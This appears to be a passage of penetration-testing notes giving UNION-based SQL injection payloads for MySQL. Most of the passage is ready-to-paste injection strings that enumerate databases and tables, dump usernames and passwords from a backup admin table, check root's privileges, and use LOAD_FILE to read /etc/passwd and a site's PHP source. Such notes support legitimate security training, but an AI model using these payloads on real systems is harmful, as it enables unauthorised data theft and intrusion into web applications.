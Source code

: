 ```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- 
```
List tables in database named `dev`
##### Columns 
Find the column names 
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA, 5 from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- 
```
List columns in table named `credentials`
##### Data 
```sql
cn' UNION select 1, username, password, 4,5 from backup.admin_bk-- 
```

```sql
cn' UNION select group_concat(value1,0x2b,value2) from backup.admin_bk-- 
```
### Reading Files
Must have the `FILE` privilige
#### Get User
```sql
cn' UNION SELECT 1, user(), 3, 4-- 
```
or
```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```
#### Get User Privs
```sql
SELECT super_priv FROM mysql.user
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- 
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- 
```
Looking for a `Y` to indicate super user privs.
**List Privileges:**
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4, 5 FROM information_schema.user_privileges WHERE user="root"-- 
```
#### Load File 
```sql
SELECT LOAD_FILE('/etc/passwd');
```
Payload:
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4, 5-- 
```
or 
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4, 5-- 
```
May need to view source code of website
